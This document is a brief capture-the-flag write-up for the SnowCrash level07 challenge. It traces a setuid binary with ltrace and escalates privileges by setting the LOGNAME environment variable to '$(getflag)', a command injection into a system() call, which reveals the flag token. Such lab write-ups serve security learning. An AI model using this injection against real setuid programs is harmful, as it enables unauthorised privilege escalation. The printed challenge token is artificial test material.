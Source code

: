 # Flag 07

- `ll`
- -rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07*


- use ltrace 
``` shell
level07@SnowCrash:~$ ltrace ./level07 
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                  = 2007
geteuid()                                                  = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)        = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)        = 0
getenv("LOGNAME")                                          = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff4a, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                     = 0
+++ exited (status 0) +++
```

- so use `getenv("LOGNAME")` to show the value of env var LOGNAME 
- I will try to modify LOGNAME env var `export LOGNAME='issam'`
``` shell
level07@SnowCrash:~$ ./level07 
issam
```

- Now it's clear I will try to pass exec of getflag to LOGNAME 
``` shell
level07@SnowCrash:~$ export LOGNAME='$(getflag)'
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

